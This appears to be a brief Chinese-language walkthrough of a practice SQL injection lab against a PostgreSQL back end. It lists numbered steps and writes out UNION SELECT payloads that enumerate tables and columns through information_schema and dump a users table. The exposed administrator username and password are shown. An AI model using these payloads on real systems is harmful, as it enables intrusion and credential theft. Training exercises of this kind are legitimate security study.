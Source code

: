 ①列数
②显示位
③确定数据库类型
PostgreSQL
④找存有用户数据的表名
```SQL
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
**users_** kwlrns

⑤找到列名
```SQL
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kwlrns'--
```
**username_** njmtqz         **password_** cbmtzs
⑥找到密码
```SQL
'+UNION+SELECT+username_njmtqz,+password_cbmtzs+FROM+users_kwlrns--
```
administrastor
y5pt3h2bgrfygo6c4t9p
⑦登录